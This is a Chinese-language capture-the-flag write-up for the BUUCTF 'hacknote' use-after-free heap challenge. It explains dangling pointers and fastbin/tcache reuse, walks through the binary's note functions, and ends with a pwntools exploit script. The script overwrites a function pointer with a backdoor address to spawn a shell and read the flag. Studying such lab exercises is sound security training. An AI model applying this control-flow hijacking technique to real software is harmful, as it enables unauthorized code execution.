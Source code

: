 # BUUCTF[PWN] [堆]

题目：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#hitcontraining_uaf)

## Use After Free 

1. 简单的说，Use After Free 就是其字面所表达的意思，当一个**内存块被释放之后再次被使用**。但是其实这里有以下几种情况:
   - 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
   - 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，**没有代码对这块内存块进行修改**，那么程序很有可能可以正常运转。
   - 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，**有代码对这块内存进行了修改**，那么当程序再次使用这块内存时，**就很有可能会出现奇怪的问题**。
2. 而我们一般所指的 **Use After Free** 漏洞主要是后两种。此外，我们一般称**被释放后没有被设置为 NULL 的内存指针**为 **dangling pointer**。



## 例题：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#hitcontraining_uaf)

注意：

1. 程序del是没有将申请的指针清零，导致可以再次调用输出print。

2. fast bin的分配释放的方式。在fast bin中，是由单项链表连接起来的，每个chunk的pre_chunk指向之前回收的chunk，即回收的chunk出于链表头部，此时 **分配时也会从头部分配** ，这里值得补充的是fast bin在free的时候并 **不检查double free** ，这样可以形成循环链表，循环链表可以有利于chunk循环利用，free(0)->free(1)->free(0)。

3. 查看add_note函数：根据当前 **notelist** 是否为空，来申请了一个8字节的空间将地址(指针)放在notelist[i]中，申请的空间的前4个字节用来存放 **print_note_content** 信息。然后又在该申请的空间的后4个字节中，放上了新申请的空间的地址，用来存放后续read输入的字符串。

   ![image-20240705201733561](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052017657.png)

   ![image-20240705204024201](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052040240.png)

   ![image-20240705203327521](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052033588.png)

   ![image-20240705203352180](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052033275.png)

4. 再看一下del_note函数：先是检查了一下index的范围，再检检查一下当前的notelist列表上是否为空，即检查add时第一步申请的空间的指针，后续释放了两次的空间，但是有个问题：该notelist表还没有清空，指向这个地址的指针还存在于notelist中。

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052035944.png)

5. 再查看print_note函数：同样检查了index是否查出范围，然后判断当前notelist是否为空，如果指针再里面就直接通过指针调用puts函数输出note的内容。

   ![image-20240705204015268](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052040343.png)

6. 所以我们可以利用UAF，用magic函数的地址来，覆盖掉print_note_content的地址，这样再调用输出时就会直接执行sytem("/bin/sh")，拿到shell。

   * 先申请两个较大的堆：size=20，但是直接给了32个字节，所以用户申请的空间和程序实际分配的空间不一定相当。

   ![image-20240705205307078](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052053196.png)

   * 再释放掉这两个堆：申请的4个空间都进入Tcache bin中，相同的大小再统一个数组中，每个数组中一个链表，上面的是先进入的，下面是后进入的，Tcache 的后入先出原则，下次会将下面的先出链表。

   ![image-20240705205515040](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052055101.png)

   * 再申请一个10大小的note：可以看到，程序直接将之前free的两个0x10大小的空间分配给了用户，一个用来参访print_note_content函数内容(add中先申请的，下面的先出链表），一个用来存放read输入的字符串(add中后申请的，上面后出链表)。

     ![image-20240705210436090](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052104201.png)

   * 此时仔细观察，就会的发现我们第三次输入的值 **cccc** ,覆盖掉了第一次申请的堆(0x20大小)中存放的print_note_content函数的地址，如果此时直接调用print_note，就会执行我们输入的值所指向的地址出的代码，所以直接用 **magic函数的地址** 来作为第三次的输入，覆盖掉原本 **print_note_content函数的地址** ，从而挟持程序的控制流，即使在print_note内部检查时，由于(&notelist)[0]处的值不为0（因为程序调用del_note释放时没有清零），仍会执行magic函数。

     ![image-20240705211337393](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052113433.png)

     此时index=1和index=2的输出都会是 **cccc** ，因为题目调用的是同一片空间上的函数地址.UAF的魅力就在于次.

     ![image-20240705211702253](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052117306.png)

     ![image-20240705212121202](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407052121245.png)

7. EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   # p = remote("node5.buuoj.cn",26733)
   p = process("./hacknote")
   
   def add(size_,context_):
       p.sendlineafter(b'Your choice :',b'1')
       p.sendlineafter(b'Note size :',str(size_).encode())
       p.sendlineafter(b'Content :',context_.encode())
   
   def free(index):
       p.sendlineafter(b'Your choice :',b'2')
       p.sendlineafter(b'Index :',str(index).encode())
   
   def printf(index):
       p.sendlineafter(b'Your choice :',b'3')
       p.sendlineafter(b'Index :',str(index).encode())
   add(20,"aaaa")
   add(20,"bbb")
   free(0)
   free(1)
   #利用UAF
   p.sendlineafter(b'Your choice :',b'1')
   p.sendlineafter(b'Note size :',b'10')
   p.sendline(p32(0x08048945))
   #调用后门函数
   printf(0)
   p.sendline(b'cat flag')
   p.interactive()
   ```

   